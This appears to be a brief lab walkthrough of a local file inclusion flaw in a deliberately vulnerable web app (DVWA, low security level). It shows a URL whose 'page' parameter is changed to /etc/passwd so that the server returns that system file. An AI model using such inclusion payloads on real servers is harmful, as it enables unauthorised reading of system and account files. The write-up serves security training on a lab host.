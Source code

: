 Security level is currently: low.

In url there is GET parameter page used for including file.

url:http://192.168.57.222/vulnerabilities/fi/?page=include.php

By changing this file location we can read file on server.

url:http://192.168.57.222/vulnerabilities/fi/?page=/etc/passwd

![Screenshot 2025-04-25 031445](https://github.com/user-attachments/assets/fb6f8581-0e5f-46c0-8411-0fc4e62269cb)
